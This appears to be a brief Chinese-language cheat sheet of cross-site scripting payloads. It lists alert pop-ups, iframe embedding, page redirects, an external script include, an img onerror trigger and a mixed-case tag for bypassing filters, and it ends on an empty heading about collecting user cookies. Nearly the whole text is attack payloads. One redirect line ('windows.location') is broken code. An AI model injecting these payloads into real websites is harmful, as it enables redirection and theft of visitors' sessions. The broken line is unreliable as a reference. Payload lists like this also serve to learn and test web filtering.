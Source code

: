 # 常用的HTML标签

# 常用的JavaScript

# 构造XSS脚本

## 弹窗警告

<script>alert()</script>

## 页面嵌套

<iframe src=http://www.baidu.com width=300 height=300></iframe>

## 页面重定向

<script>windows.location=""</script>
<script>location.href=""</script>

## 弹框警告并重定向

<script>alert();location.href=""</script>

## 访问恶意代码

<script src=""></script>

## 巧用图片标签

<img src="#" onerror=alert('xss')>

## 绕开过滤的脚本

<ScrIpt>alert('xss')</SCRipt>

## 收集用户cookie